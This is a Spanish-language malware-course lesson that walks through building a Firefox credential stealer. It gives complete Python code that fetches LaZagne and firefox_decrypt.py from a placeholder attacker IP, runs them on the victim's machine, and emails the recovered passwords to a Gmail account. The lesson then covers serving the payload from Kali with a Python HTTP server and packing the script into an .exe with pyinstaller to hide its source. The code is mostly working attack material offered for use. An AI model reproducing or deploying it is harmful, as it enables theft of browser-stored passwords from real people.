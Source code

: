 
---
- TAG: #Creación #Software #Malicioso 
----
En esta clase, daremos los toques finales a nuestro primer proyecto de malware, enfocándonos en la extracción y envío de credenciales de Firefox. Nos aseguraremos de que cada parte del programa funcione sin problemas y de manera eficiente.

Al finalizar, tendrás en tus manos un ejemplo completo de malware, marcando un hito significativo en tu camino hacia el dominio de las técnicas ofensivas en ciberseguridad.

----
# Extracción de Contraseñas Guardadas en Navegadores Basados en Mozilla

Este script nos permitirá extraer contraseñas guardadas en navegadores como Firefox Mozilla, Waterfox, Thunderbird y SeaMonkey.

## Información Sobre Perfiles en Mozilla

Un dato curioso es que todos los perfiles de Mozilla se guardan en la siguiente ruta:

```
C:\Users\tuusuario\AppData\Roaming\Mozilla\Firefox\Profiles
```

Por lo general, en la carpeta que termina en `-release` es donde se almacena la información de las credenciales guardadas.

Para comprobarlo, puedes abrir el archivo `logins.json` en el bloc de notas. Normalmente estará encriptado en **Base64**.

## Creación del Script en Python

Vamos a crear un script en Python que reciba la ruta del directorio `Profiles/adsf-release` y se encargue de identificar el nombre del archivo de contraseñas (logins).

### Código del Script

```python
#!/usr/bin/python3 

import subprocess
import smtplib
import requests
import tempfile
import os 
import sys

from email.mime.text import MIMEText

# Función para enviar correo con las contraseñas obtenidas
def send_email(subject, body, sender, recipients, password):
    msg = MIMEText(body, _charset='utf-8')  # Establecer codificación UTF-8
    msg['Subject'] = subject
    msg['To'] = ', '.join(recipients)

    try:
        with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:
            smtp_server.login(sender, password)
            smtp_server.sendmail(sender, recipients, msg.as_string())
        print(f"\n[+] Email enviado exitosamente\n")
    except Exception as e:
        print(f"\n[!] Error al enviar el correo: {e}")

# Función para ejecutar comandos en el sistema operativo
def run_command(command):
    try:
        output_command = subprocess.check_output(command, shell=True)
        return output_command.decode("utf-8").strip() if output_command else None
    except Exception as e:
        print(f"\n[!] Error al ejecutar el comando {command}. Error: {e}")
        return None

# Función para descargar y ejecutar LaZagne
def download_and_execute_lazagne():
    # Cambiar la IP de la máquina atacante Linux
    r = requests.get("http://ip-atacante/lazagne.exe")  
    temp_file = tempfile.mkdtemp()
    os.chdir(temp_file)

    with open("lazagne.exe", "wb") as f:
        f.write(r.content)

    lazagne_output = run_command("lazagne.exe browsers")
    os.remove("lazagne.exe")

    return lazagne_output

# Función para obtener los perfiles de Firefox en el sistema
def get_firefox_profiles(username):
    path = f"C:\\Users\\{username}\\AppData\\Roaming\\Mozilla\\Firefox\\Profiles"
    try:
        profiles = [profile for profile in os.listdir(path) if "release" in profile]
        return profiles[0] if profiles else None
    except Exception as e:
        print(f"\n[!] No ha sido posible obtener los profiles de Firefox. Error: {e}\n")
        return None

# Función para descargar y ejecutar el script de descifrado de contraseñas de Firefox
def get_firefox_passwords(username, profile):
    # Cambiar la IP de la máquina atacante Linux
    r = requests.get("http://ip-atacante/firefox_decrypt.py")  
    temp_dir = tempfile.mkdtemp()
    os.chdir(temp_dir)

    with open("firefox_decrypt.py", "wb") as f:
        f.write(r.content)

    # Cambiar el comando a python3 para mayor compatibilidad
    command = f"python3 firefox_decrypt.py C:\\Users\\{username}\\AppData\\Roaming\\Mozilla\\Firefox\\Profiles\\{profile}"
    passwords = run_command(command)

    os.remove("firefox_decrypt.py")

    return passwords

if __name__ == '__main__':
    # Obtener el nombre de usuario del sistema Windows
    username_str = run_command("whoami")
    username = username_str.split("\\")[1]
    profile = get_firefox_profiles(username)

    if not username or not profile:
        sys.exit(f"\n[!] No ha sido posible obtener el nombre de usuario o perfiles válidos para Firefox")

    # Obtener las contraseñas de Firefox usando el perfil del usuario
    passwords = get_firefox_passwords(username, profile)

    # Enviar las contraseñas obtenidas por correo
    if passwords:
        # Asegúrate de que la contraseña no contenga caracteres extraños
        email_password = "(contraseña de aplicación del correo gmail)".replace('\xa0', ' ')  # Reemplaza espacio no rompible por espacio normal
        send_email("Contraseñas descifradas de Firefox", passwords, "tucorreo@gmail.com", ["tucorreo@gmail.com"], email_password)
    else:
        print(f"\n[!] No se han encontrado contraseñas\n")
```


# Desde la máquina Kali Linux
## Herramienta de **Firefox Decrypt**

El script utiliza la herramienta **Firefox Decrypt**, que puedes obtener desde el siguiente enlace:  
- [GitHub: Firefox Decrypt](https://github.com/unode/firefox_decrypt)

### Copiar el Repositorio

Para obtener la herramienta en tu máquina atacante, copia el repositorio en formato raw:

```bash
wget https://raw.githubusercontent.com/unode/firefox_decrypt/refs/heads/main/firefox_decrypt.py
```

### Compartir el Script a la Máquina Víctima

Una vez copiado el repositorio, compártelo a tu máquina víctima utilizando el puerto 80 con un servidor Python:

```bash
python3 -m http.server 80 
```

>Este servidor tiene que estar activo para que funcione todo correctamente.

# Máquina Windows
## Creación del Binario en la Máquina Windows

Para crear el ejecutable en la máquina Windows, instala `pyinstaller`:

```cmd
pip3 install pyinstaller 
```

Con esto, creamos el binario o el ejecutable `.exe` que contendrá todo lo necesario para que, al ejecutarse en la máquina víctima, recopile toda la información que necesitamos sin mostrar el código fuente.

### Crear el Ejecutable

Pasa el archivo malicioso a la herramienta para crear la aplicación:

```bash
pyinstaller --onefile malware.py
```

> **Nota**: Si encuentras algún error, debes agregar la ruta del script en el **Path** de Python. Esto se puede hacer desde las configuraciones avanzadas del sistema, en las variables de entorno.

---

